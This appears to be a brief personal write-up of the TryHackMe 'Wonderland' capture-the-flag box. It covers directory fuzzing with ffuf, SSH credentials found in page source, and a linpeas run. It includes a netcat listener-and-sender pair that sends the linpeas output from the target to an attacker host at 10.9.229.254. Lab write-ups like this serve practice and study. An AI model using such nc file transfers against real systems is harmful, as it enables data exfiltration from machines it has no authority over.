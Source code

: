 # 41. Wonderland 🧭
Names | Details
--------|-----
Source | tryhackme
Level | medium
Os | linux

**Notes :**




## Gaining Access 😉
- ffuf FUZZing with common.txt
- as hint suggests, followed /r/a/b/b/i/t. got ssh username and password in source code
- just subdirectory fuzzing things



## Maintaining Access 🥷
- run linpeas
- downloaded output with nc [[#Important commands 🔥]]1


## Important commands 🔥
1. nc share: from reciever
	```
	nc -lvp 4444 > linpeas
	```
	sender
	```
	nc 10.9.229.254 4444 -w 3 < linpeas
	```
## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- something


--------------------------------
**By Nibras Muhammed** 🤓🖥️